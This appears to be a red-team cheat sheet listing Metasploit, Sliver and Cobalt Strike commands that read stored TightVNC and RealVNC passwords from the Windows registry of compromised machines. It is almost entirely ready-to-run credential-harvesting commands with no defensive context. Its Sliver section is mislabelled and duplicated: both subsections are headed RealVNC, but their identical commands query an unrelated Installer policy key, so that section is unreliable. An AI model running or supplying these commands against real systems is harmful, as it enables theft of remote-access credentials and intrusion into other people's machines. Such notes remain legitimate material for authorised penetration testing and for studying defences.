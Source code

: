 # C2 Frameworks

## 01 - Metasploit

### 1.1 - Post Module

```
meterpreter > run post/windows/gather/credentials/vnc
```

### 1.2 - Interactive Session

#### 1.2.1 - TightVNC

```
meterpreter > reg [-r <target_IP>] queryval -k HKCU\Software\TightVNC\Server -v password [-w <64>]
```

#### 1.2.2 - RealVNC

```
meterpreter > reg [-r <target_IP>] enumkey -k HKCU\\Software\ORL\\WinVNC3\\Password [-w <64>]

meterpreter > reg [-r <target_IP>] queryval -k HKLM\SOFTWARE\RealVNC\WinVNC4 -v password [-w <64>]
```

## 02 - Sliver

TODO: Convert it

### 2.1 - RealVNC

```
sliver (SPATIAL_CLEANER) > registry read -H HKLM "SOFTWARE\\Policies\\Microsoft\\Windows\\Installer"

sliver (SPATIAL_CLEANER) > registry read -H HKCU "SOFTWARE\\Policies\\Microsoft\\Windows\\Installer"
```

### 2.2 - RealVNC

```
sliver (SPATIAL_CLEANER) > registry read -H HKLM "SOFTWARE\\Policies\\Microsoft\\Windows\\Installer"

sliver (SPATIAL_CLEANER) > registry read -H HKCU "SOFTWARE\\Policies\\Microsoft\\Windows\\Installer"
```

## 03 - Cobalt Strike

### 3.1 - TightVNC

```
beacon> reg queryv x64 HKCU\SOFTWARE\TightVNC\Server Password
```

### 3.2 - RealVNC

```
beacon> reg query x64 HKCU\Software\ORL\WinVNC3\Password

beacon> reg queryv x64 HKLM\SOFTWARE\RealVNC\WinVNC4 password
```